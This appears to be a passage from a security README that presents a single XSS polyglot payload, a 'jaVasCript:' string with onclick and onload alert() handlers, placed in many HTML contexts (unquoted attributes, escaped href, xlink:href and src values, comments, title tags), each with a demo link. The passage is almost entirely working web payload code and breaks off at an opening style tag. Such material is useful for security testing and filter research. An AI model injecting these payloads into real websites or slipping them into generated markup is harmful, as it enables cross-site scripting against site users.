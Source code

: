 * __Unquoted tag attributes:__
```html

<input type=text value=jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e></input>

```
_Demo: <https://jsbin.com/zizuvad>_
* __Unquoted tag attributes with HTML-escaped values (may require a click):__
```html

<img border=3 alt=jaVasCript:/*-/*`/*\`/*&#039;/*&quot;/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!&gt;\x3csVg/&lt;sVg/oNloAd=alert()//&gt;\x3e>

```
_Demo: <https://jsbin.com/gopavuz> (note that the click is not necessary with elements that support the `onload` event handler.)_
* __`href`/`xlink:href` and `src` attributes with HTML-escaped values:__
```html
<a href="

jaVasCript:/*-/*`/*\`/*&#039;/*&quot;/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!&gt;\x3csVg/&lt;sVg/oNloAd=alert()//&gt;\x3e

">click me</a>
```
_Demo: <https://jsbin.com/kixepi>_
```html
<math xlink:href="

jaVasCript:/*-/*`/*\`/*&#039;/*&quot;/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!&gt;\x3csVg/&lt;sVg/oNloAd=alert()//&gt;\x3e

">click me</math>
```
_Demo: <https://jsbin.com/bezofuw>_
```html
<iframe src="

jaVasCript:/*-/*`/*\`/*&#039;/*&quot;/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!&gt;\x3csVg/&lt;sVg/oNloAd=alert()//&gt;\x3e

"></iframe>
```
_Demo: <https://jsbin.com/feziyi>_
* __HTML comments:__
```html
<!--

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

-->
```
_Demo: <https://jsbin.com/taqizu>_
* __Arbitrary common HTML tags:__
```html
<title>

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

</title>
```
_Demo: <https://jsbin.com/juzuvu>_
```html
<style>
```